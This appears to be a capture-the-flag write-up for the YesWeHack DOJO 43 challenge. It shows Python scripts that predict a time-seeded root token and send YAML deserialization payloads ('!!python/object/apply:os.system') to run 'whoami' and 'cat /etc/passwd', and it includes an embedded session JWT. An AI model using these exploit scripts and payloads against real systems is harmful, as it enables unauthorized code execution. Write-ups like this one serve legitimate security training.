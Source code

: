 ```yaml
---
layout: single
title: Remote Code Execution via Unsafe YAML Deserialization with Token Bypass - DOJO 43
excerpt: "The challenge code performs unsafe YAML deserialization (yaml.load) on user-controlled input without proper validation or sandboxing, allowing remote code execution (RCE) via crafted payloads. A token-based access control is implemented comparing a guest token with a generated root token, but the check is flawed or bypassable, enabling an attacker to pass the authentication and reach the vulnerable YAML deserialization code. However, an attacker can bypass or control these tokens (e.g., via predictable token generation using the current time as seed), allowing access to the deserialization block where yaml.load is called with yaml.Loader. This allows arbitrary command execution via the !!python/object/apply:os.system YAML tag or similar techniques.
date: 2025-08-03
classes: wide
header:
  teaser: /img2/images/portswigger.png
  teaser_home_page: true
  icon: /img2/images/burp.jpg
categories:
  - yeswehack
  - Web
tags:
  - Auth-Token Bypass
  - Python Deserialization Attack (DES-Yaml)
---
```



![](/img2/Pasted%20image%2020250803225647.png)

> By reviewing the Python code, we see that for our token to be valid, it must be the same as the token generated by the server.

```python
import random
import time

def genToken(seed:str) -> str:
    random.seed(seed)
    return ''.join(random.choices('abcdef0123456789', k=16))

tokenRoot = genToken(int(time.time()) // 1)
print(f"TOKEN: {tokenRoot} --> TIME: {int(time.time()) // 1}")
```

![](/img2/Pasted%20image%2020250803230052.png)

> To replicate the behavior when generating the cookie, we can create a small script. By running the script several times, we can see that there's a range in which the same session cookie is generated, due to the poor implementation of time.

```python
import requests
import random
import time
import json

def genToken(seed:str) -> str:
    random.seed(seed)
    return ''.join(random.choices('abcdef0123456789', k=16))


url = "https://dojo-yeswehack.com:443/api/challenges/285cec14-a511-4567-93f5-e709b0eaf9b9"
cookies = {"jwt": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiI4YjBmZGY5My0yYWIzLTRiODktODAyZi1hYzdhZjhiOGQ4YTciLCJpc0FkbWluIjpmYWxzZSwib2F1dGgiOnRydWUsImlhdCI6MTc1NDI0NzkxOCwiZXhwIjoxNzU0ODUyNzE4fQ.KSTjnAOPUbwpMXdCEQfcKV8Jek2RsuG4zM7FuhhU4-4"}

tokenRoot = genToken(int(time.time()) // 1)
data = {"yaml": 'testing', "token": tokenRoot}
req=requests.post(url, cookies=cookies, data=data)

if "Unauthorized" not in req.text:
	try:
		raw=req.text
		parsed=json.loads(raw)
		print(parsed['output'])
	except:
		pass     
```

```bash
python3 cookie_poc.py > index.html
```

```bash
python3 -m http.server 80
```

![](/img2/Pasted%20image%2020250803230643.png)

> By replicating the result from our script on our own HTTP server, we can see that we've successfully bypassed the session token.

![](/img2/Pasted%20image%2020250803231016.png)

```python
!!python/object/apply:os.system ["whoami"]
```

> Once we gained access to the firmware update function, we reviewed the code and saw that it uses the 'yaml.load()' function, which is vulnerable to Code Execution via Unsafe YAML Deserialization.

```python
import requests
import random
import time
import json
from bs4 import BeautifulSoup

def genToken(seed:str) -> str:
    random.seed(seed)
    return ''.join(random.choices('abcdef0123456789', k=16))



url = "https://dojo-yeswehack.com:443/api/challenges/285cec14-a511-4567-93f5-e709b0eaf9b9"
cookies = {"jwt": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiI4YjBmZGY5My0yYWIzLTRiODktODAyZi1hYzdhZjhiOGQ4YTciLCJpc0FkbWluIjpmYWxzZSwib2F1dGgiOnRydWUsImlhdCI6MTc1NDI0NzkxOCwiZXhwIjoxNzU0ODUyNzE4fQ.KSTjnAOPUbwpMXdCEQfcKV8Jek2RsuG4zM7FuhhU4-4"}

tokenRoot = genToken(int(time.time()) // 1)
data = {"yaml": '!!python/object/apply:os.system ["cat /etc/passwd"]', "token": tokenRoot}
req=requests.post(url, cookies=cookies, data=data)

if "Unauthorized" not in req.text:
	try:
		raw=req.text
		parsed=json.loads(raw)
		print(parsed['output'])
	except:
		pass
```

```bash
python3 poc.py
```

![](/img2/Pasted%20image%2020250803231448.png)

 > To achieve RCE, it's necessary to send a request with the token bypass and the payload in the 'yaml' field.

## Flag

![](/img2/Pasted%20image%2020250803231544.png)

> Once we're able to execute arbitrary commands within the system, we can retrieve the flag at the end of the request.